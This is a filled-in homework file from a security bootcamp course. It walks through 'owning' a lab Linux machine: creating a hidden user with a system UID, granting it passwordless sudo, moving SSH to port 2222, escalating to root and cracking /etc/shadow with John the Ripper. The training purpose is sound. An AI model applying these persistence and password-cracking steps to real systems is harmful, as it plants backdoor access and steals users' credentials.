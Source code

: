 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here`
	adduser --no-create-home --uid 113 --disabled-password sysd

2. Give your secret user a password: 
    - `Your solution command here`
	passwd sysd 	---> set to passw0rd1

3. Give your secret user a system UID < 1000:
    - `Your solution command here`
	usermod -u 113 sysd

4. Give your secret user the same GID:
   - `Your solution command here`
	groupmod -g 113 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  `Your solution command here`
	usermod -aG sudo sysd
	echo "sysd ALL=(ALL) NOPASSWD:ALL" | sudo tee /etc/sudoers.d/sysd

6. Test that `sudo` access works without your password:

    ```bash
    Your bash commands here
	su sysd -

	# Now as user sysd
	sudo whoami	--> no prompt for password

    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Your bash commands here
	nano /etc/ssh/sshd_config

	Comment out line with Port 22 and add line with Port 2222
	# Port 22
	Port 2222

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here`
	sudo systemctl restart ssh

2. Exit the `root` account:
    - `Your solution command here`
	exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`
	ssh -p 2222 sysd@192.168.6.105

4. Use `sudo` to switch to the root user:
    - `Your solution command here`
	sudo su -

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`
	ssh -p 2222 sysd@192.168.6.105

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`
	sudo su -
	john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

